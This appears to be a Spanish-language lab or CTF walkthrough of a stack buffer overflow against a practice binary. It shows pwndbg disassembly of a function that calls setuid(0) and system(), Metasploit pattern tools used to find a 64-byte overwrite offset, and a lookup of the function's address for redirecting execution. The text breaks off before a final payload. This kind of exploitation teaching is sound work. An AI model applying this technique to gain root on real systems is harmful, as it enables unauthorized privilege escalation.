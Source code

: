 ```bash
0x000000000040136a  fire
0x000000000040139e  main
0x00000000004013dc  _fini
pwndbg> disassemble fire
Dump of assembler code for function fire:
   0x000000000040136a <+0>:     push   rbp
   0x000000000040136b <+1>:     mov    rbp,rsp
   0x000000000040136e <+4>:     lea    rax,[rip+0xcfb]        # 0x402070
   0x0000000000401375 <+11>:    mov    rdi,rax
   0x0000000000401378 <+14>:    mov    eax,0x0
   0x000000000040137d <+19>:    call   0x401050 <printf@plt>
   0x0000000000401382 <+24>:    mov    edi,0x0
   0x0000000000401387 <+29>:    call   0x401070 <setuid@plt>
   0x000000000040138c <+34>:    lea    rax,[rip+0xcf0]        # 0x402083
   0x0000000000401393 <+41>:    mov    rdi,rax
   0x0000000000401396 <+44>:    call   0x401040 <system@plt>
   0x000000000040139b <+49>:    nop
   0x000000000040139c <+50>:    pop    rbp
   0x000000000040139d <+51>:    ret
End of assembler dump.
```

Tiene una funcion **fire** interesante de la que nos vamos a aprovechar ya que setea el suid y después llama a system.

 Vamos a crear un patrón para ver cuando sobreescribimos el RIP
 
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

Cogemos el valor de RBP en del gdb y vemos:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3363413263413163
[*] Exact match at offset 64

```

Por lo que ahora mismo necesitamos 64 A y 8 B(sobreescribir el RBP, ya que luego ya es el RIP).

Vemos la dirección a llamar a fire:

```bash
pwndbg> xinfo fire
Extended information for virtual address 0x40136a:

  Containing mapping:
          0x401000           0x402000 r-xp     1000   1000 /home/victor/Desktop/vulnerable

  Offset information:
         Mapped Area 0x40136a = 0x401000 + 0x36a
         File (Base) 0x40136a = 0x400000 + 0x136a
      File (Segment) 0x40136a = 0x401000 + 0x36a
         File (Disk) 0x40136a = /home/victor/Desktop/vulnerable + 0x136a

 Containing ELF sections:
               .text 0x40136a = 0x401080 + 0x2ea

pwndbg> disassemble fire
Dump of assembler code for function fire:
   0x000000000040136a <+0>:     push   rbp
   0x000000000040136b <+1>:     mov    rbp,rsp
   0x000000000040136e <+4>:     lea    rax,[rip+0xcfb]        # 0x402070
```